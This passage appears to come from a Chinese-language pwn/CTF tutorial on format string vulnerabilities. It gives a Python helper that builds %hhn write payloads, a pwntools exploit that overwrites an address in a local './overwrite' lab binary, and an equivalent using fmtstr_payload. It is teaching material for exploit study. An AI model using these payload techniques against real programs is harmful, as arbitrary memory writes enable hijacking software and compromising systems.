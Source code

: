 我们可以依次进行计算。这里给出一个基本的构造，如下

```py
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

其中每个参数的含义基本如下

- offset 表示要覆盖的地址最初的偏移
- size 表示机器字长
- addr 表示将要覆盖的地址。
- target 表示我们要覆盖为的目的变量值。

相应的 exploit 如下

```py
def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594806809856-fa58c150-2149-4e00-b388-b8dfc65b7e50.png)

当然也可以用pwntools自带的工具fmtstr_payload

```
from pwn import *
sh = process('./overwrite')
b_addr=0x0804A028
sh.sendline(fmtstr_payload(6, {0x804A028:0x12345678}))
#偏移为6，将0x804a028处的值改为0x12345678
print sh.recv()
sh.interactive()
```
